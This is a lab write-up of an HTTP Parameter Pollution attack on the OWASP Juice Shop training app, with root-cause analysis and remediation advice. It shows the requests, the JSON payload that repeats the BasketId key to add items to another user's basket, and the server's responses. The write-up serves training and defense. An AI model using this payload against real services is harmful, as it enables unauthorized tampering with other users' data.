





# OWASP Juice Shop – Add Product to Another User's Basket (HTTP Parameter Pollution / Broken Object Level Authorization)

> Tested on a local, intentionally vulnerable training app (OWASP Juice Shop) at `http://localhost:3000`.
> Date: 2026-11-10 | Tools: Burp Suite (Repeater), Firefox + PwnFox

## Summary

The endpoint `POST /api/BasketItems/` accepts a `BasketId` field to decide which basket the item is added to. When the request body contains the `BasketId` field twice (HTTP Parameter Pollution), the application appears to validate ownership against the first `BasketId` value but writes the item using the last `BasketId` value. An authenticated user can add a product to another user's basket just by repeating the `BasketId` field with their own basket ID first and the victim's basket ID second; only the `BasketId` field was duplicated, nothing else was changed.

| Field | Value |
|---|---|
| Vulnerability | HTTP Parameter Pollution (HPP) leading to Broken Object Level Authorization |
| Category | OWASP Top 10 – A01:2021 Broken Access Control |
| Endpoint | `POST /api/BasketItems/` |
| Authentication | Required (any valid user) |
| Impact | Integrity (an attacker can add items to another user's basket without authorization) |
| Challenge solved | Not specified (no challenge banner appears in the screenshots) |

## Test Accounts

| Role | Email | User ID | Basket ID | Basket content (before) |
|---|---|---|---|---|
| Attacker | attacker@gmail.com | Not specified | 6 | Apple Juice (1000ml) x1, Orange Juice (1000ml) x1 |
| Victim | victem@gmail.com | Not specified | 7 | Banana Juice (1000ml) x1 |

## Steps to Reproduce

### 1. Attacker's own basket

Logged in as `attacker@gmail.com` (red PwnFox tab). Session Storage holds `bid = 6`, and the basket contains **Apple Juice (1000ml)** and **Orange Juice (1000ml)**.


### 2. Victim's basket

In a second session (blue PwnFox tab), logged in as `victem@gmail.com`. Session Storage holds `bid = 7`, and the basket contains only **Banana Juice (1000ml)**.



### 3. Baseline request (single `BasketId`)

As the attacker, a normal request was sent to add `ProductId: 1` (Apple Juice) to the attacker's own basket (`BasketId: "6"`):

```http
POST /api/BasketItems/ HTTP/1.1
Host: localhost:3000
Authorization: Bearer <attacker_token>
Content-Type: application/json
X-PwnFox-Color: red
```

```json
{
  "ProductId": 1,
  "BasketId": "6",
  "quantity": 1
}
```

The server rejects it, because that exact `ProductId`/`BasketId` combination already exists in that basket:




Relevant part of the response:

```json
{
  "errors": [
    {
      "message": "ProductId must be unique",
      "type": "unique violation",
      "path": "ProductId",
      "value": 1
    },
    {
      "message": "BasketId must be unique",
      "type": "unique violation",
      "path": "BasketId",
      "value": "6"
    }
  ]
}
```

### 4. Exploit: duplicate the `BasketId` field (HTTP Parameter Pollution)

The same request was sent again, still authenticated as the attacker, but with the `BasketId` field repeated: the attacker's own basket ID (`"6"`) first, and the victim's basket ID (`"7"`) second. Only the `BasketId` field was duplicated — `ProductId` and `quantity` were left unchanged:

```http
POST /api/BasketItems/ HTTP/1.1
Host: localhost:3000
Authorization: Bearer <attacker_token>
Content-Type: application/json
X-PwnFox-Color: red
```

```json
{
  "ProductId": 1,
  "BasketId": "6",
  "BasketId": "7",
  "quantity": 1
}
```

The server responds with success, and the created item is recorded against `BasketId: "7"` — the victim's basket, not the attacker's own basket (`"6"`) that the request appeared to be authorized for:




Relevant part of the response:

```json
{
  "status": "success",
  "data": {
    "id": 13,
    "ProductId": 1,
    "BasketId": "7",
    "quantity": 1,
    "updatedAt": "2026-11-10T13:07:54.369Z",
    "createdAt": "2026-11-10T13:07:54.369Z"
  }
}
```

### 5. Result

Reloading the victim's basket (`victem@gmail.com`, `bid = 7`) confirms the item was actually added there: it now shows **Banana Juice (1000ml)** and the attacker-injected **Apple Juice (1000ml)**, with the total updated to 3.98, even though the attacker never authenticated as the victim.



## Root Cause

Based on the behavior observed (no source code was reviewed), the server appears to read the `BasketId` field twice during request processing, using two different extraction methods:
- The authorization/validation step appears to read the **first** `BasketId` occurrence in the body (the attacker's own basket, `"6"`), which passes the ownership check.
- The actual write/persistence step appears to use the **last** `BasketId` occurrence (`"7"`), which is how most JSON parsers resolve a body with a duplicate key when it is converted into a JavaScript object (the last value overwrites earlier ones).

This mismatch between what is validated and what is written lets an attacker smuggle a different, unauthorized `BasketId` past the ownership check.

## Impact

Any authenticated user can add arbitrary products (and quantities) to another user's basket without their consent, by duplicating the `BasketId` field in the request body. This can be used to manipulate another user's order, inflate or alter their total, or add unwanted items to their basket.

## Remediation

- Reject requests whose body contains duplicate JSON keys (validate against a strict schema that disallows duplicate properties) before any further processing.
- Make sure the authorization check and the persistence/write logic read the exact same parsed value for `BasketId`, so there is no divergence between what is checked and what is saved.
- Do not trust a client-supplied `BasketId` at all for ownership decisions; derive the basket from the authenticated user's session/token.
- Add automated tests (including HTTP Parameter Pollution payloads) for access control on all object-level write endpoints.

## References

- OWASP Top 10 – A01:2021 Broken Access Control
- OWASP API Security Top 10 – API1:2023 Broken Object Level Authorization
- OWASP Testing Guide – Testing for HTTP Parameter Pollution (WSTG-INPV-04)
- OWASP Juice Shop – https://owasp-juice.shop

## Disclaimer

For educational purposes only, performed on a local lab environment.
